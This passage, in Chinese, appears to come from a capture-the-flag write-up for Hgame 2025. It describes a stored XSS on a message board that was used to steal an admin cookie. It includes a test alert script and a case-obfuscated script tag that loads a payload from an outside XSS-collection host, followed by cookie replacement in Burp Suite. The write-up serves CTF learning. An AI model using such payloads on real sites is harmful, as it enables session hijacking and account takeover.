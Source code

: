随后进入留言板，提交 `<script>alert('123')</script>` 出现弹窗，似乎没有过滤，可以整存储型 XSS，去获取 admin 的 cookie。所以拿 XSS 网站的 payload `<sCRiPt sRC=//xs.pe/0c9></sCrIpT>` 监听即可。

![](/img/Hgame2025WP/Bi4bbrUHIoxldRx2Yf4cuzeKnpd.png)

一开始以为这句“admin 才不会来看你”是反话，是给的提示，后来发现还真没来，被自己无语到了......

然后突然想起来忘记目录扫描了，一扫扫出来一个 `/admin`

`好吧好吧你都这么求我了～admin只好勉为其难的来看看你写了什么～才不是人家想看呢！`

......我想这应该行了，然而不知道什么原因还是没有收获。

后来题目又提供了部分源码，发现思路应该是对的，重新试了一遍，这回成了，得到 admin 的 cookie，访问 `/flag` 用 BP 修改 cookie 为 admin 的，得到 flag

![](/img/Hgame2025WP/QYIlbVcTwoXNRAxaGRgcs3pvn0b.png)
